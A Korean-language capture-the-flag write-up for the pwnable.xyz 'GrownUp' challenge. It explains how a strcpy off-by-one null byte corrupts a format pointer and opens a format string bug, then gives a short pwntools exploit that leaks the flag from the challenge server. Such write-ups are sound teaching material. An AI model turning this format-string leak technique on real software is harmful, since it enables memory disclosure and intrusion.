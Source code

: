 # [pwnable.xyz] GrownUp

> Are you old enough for this one? Flag is in the binary itself.

## Bug

![image](https://github.com/user-attachments/assets/bfb119af-6749-4f40-a713-819c1a6cfb6b)

`name`을 최대 `0x80`바이트까지 입력할 수 있고, `strcpy()`로 `usr`에 복사한다.

![image](https://github.com/user-attachments/assets/eefeb4fa-d93f-4f18-a0b3-3a512ee308ab)

`fmt`에는 `fmt_arr`의 주소인 `0x601168`이 저장되어 있는데, `usr`에 `0x80`바이트를 꽉 채워서 복사하면 맨 뒤에 null byte가 붙어서 off-by-one이 발생하여  `fmt`에 저장된 값이 `0x601100`으로 바뀌게 된다. 그러면 `main()`의 마지막 `printf()`는 `printf(0x601100, usr)`이 되는데, `0x601100`은 `usr`의 범위에 포함되므로 format string을 임의로 설정할 수 있게 되어 format string bug가 발생한다.

## Exploit

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30004)

flag = 0x601080

r.sendafter(b"Are you 18 years or older? [y/N]: ", b"y" * 8 + p64(flag))

payload = b"a" * 0x20
payload += b"%9$s"
payload = payload.ljust(0x80, b"a")

r.sendafter(b"Name: ", payload)

r.interactive()
```

![image](https://github.com/user-attachments/assets/521834cd-e316-4ef9-a7fc-526382dee693)
